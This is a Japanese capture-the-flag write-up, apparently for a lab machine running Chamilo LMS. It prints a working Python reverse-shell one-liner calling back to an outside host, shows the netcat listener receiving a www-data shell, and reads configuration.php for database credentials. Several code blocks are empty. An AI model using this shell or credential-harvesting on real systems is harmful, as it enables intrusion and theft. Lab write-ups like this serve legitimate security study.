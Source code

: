 
毎回、一つずつコマンドを変えるのはめんどくさいので、リバースシェルで接続する。
[https://www.revshells.com/]でリバースシェルを作る。
自分の場合は、bashではうまくいかないので、pythonでリバースシェルを建てられた
```bash
CMD = python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

リバースシェルの確立
```bash
└──╼ [★]$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.6] from (UNKNOWN) [10.129.254.229] 37162
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ 
```

Apache サーバーの Web 管理者であるwww-dataであることがわかる。cd・home
```bash

```

```bash

```

```bash

```


- **Tactics**:
    - #Tactic_初期アクセス
    - #Tactic_Escution_実行
- **Techniques**:
    - #T1190_公開アプリケーションのエクスプロイト
    - #T1059_コマンドとスクリプトインタープリタ
    - #T1078_有効なアカウント
    - その他のInitial Access/Execution関連技術...




# Lateral Movement
www-dataは、Apacheサーバーの管理者として、/var/wwwは自由にいじれる権限がある。
/var/www以下を色々見ていると、configuration.phpがある。
configuration.phpは、データベースの設定を行なっているphpであり、データベースにログインするためのアカウント情報を取得できる。
ここで取得できたアカウント情報でデータベースにアカウントを追加する。
```bash
www-data@permx:/var/www/chamilo/app/config$ head -30 configuration.php
head -30 configuration.php
<?php
// Chamilo version 1.11.24
// File generated by /install/index.php script - Sat, 20 Jan 2024 18:20:32 +0000
/* For licensing terms, see /license.txt */
/**
 * This file contains a list of variables that can be modified by the campus site's server administrator.
 * Pay attention when changing these variables, some changes may cause Chamilo to stop working.
 * If you changed some settings and want to restore them, please have a look at
 * configuration.dist.php. That file is an exact copy of the config file at install time.
 * Besides the $_configuration, a $_settings array also exists, that
 * contains variables that can be changed and will not break the platform.
 * These optional settings are defined in the database, now
 * (table settings_current).
 */

// Database connection settings.
```